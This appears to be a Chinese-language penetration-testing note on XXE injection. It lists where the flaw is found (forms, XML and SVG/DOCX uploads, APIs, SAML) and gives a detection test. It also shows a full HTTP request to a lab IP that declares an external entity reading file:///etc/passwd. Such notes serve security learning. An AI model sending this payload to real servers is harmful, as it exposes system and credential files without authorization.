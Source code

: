 # XXE

{% hint style="info" %}
`XML External Entity (XXE) Injection` 當 XML 資料未經適當清理或安全解析而從使用者控制的輸入中取得時，就會出現漏洞，這可能允許我們利用 XML 功能執行惡意操作。XXE漏洞可能會對Web應用程式及其後端伺服器造成相當大的損害，從洩漏敏感檔案到關閉後端伺服器，這就是為什麼它被OWASP視為[十大Web安全風險](https://owasp.org/www-project-top-ten/)之一。
{% endhint %}

## <mark style="color:red;">**1. 發現點**</mark>

* **聯繫表單（Contact Form）**：使用者提交的訊息可能被XML解析
* ALL XML
* **文件上傳功能**：應用允許上傳XML格式的文件，例如SVG、DOCX（ZIP包內含XML）
* **API請求（REST/SOAP）**：部分API使用XML作為請求格式
* **SSO（單點登入）**：某些SSO協議（如SAML）使用XML格式傳遞身份驗證數據
*   使用`<!DOCTYPE>` 定義實體來確認伺服器是否解析：

    ```xml
    <!DOCTYPE email [
      <!ENTITY test "XXE Test">
    ]>
    <email>
      &test;
    </email>
    ```

    **如果伺服器回應包含 `XXE Test`，代表存在XXE漏洞**。
* Example
* <pre class="language-xml"><code class="lang-xml">POST /submitDetails.php HTTP/1.1
  Host: 10.129.59.193
  User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
  Accept: */*
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Content-Type: text/plain;charset=UTF-8
  Content-Length: 214
  Origin: http://10.129.59.193
  Connection: keep-alive
  Referer: http://10.129.59.193/

  &#x3C;?xml version="1.0" encoding="UTF-8"?>
    &#x3C;!DOCTYPE email [
      &#x3C;!ENTITY company SYSTEM "file:///etc/passwd">
    ]>
  &#x3C;root>
    &#x3C;name>hack&#x3C;/name>
  <strong>  &#x3C;tel>4324324&#x3C;/tel>
  </strong>  &#x3C;email>&#x26;company;&#x3C;/email>
    &#x3C;message>hackyou&#x3C;/message>
  &#x3C;/root>
  </code></pre>
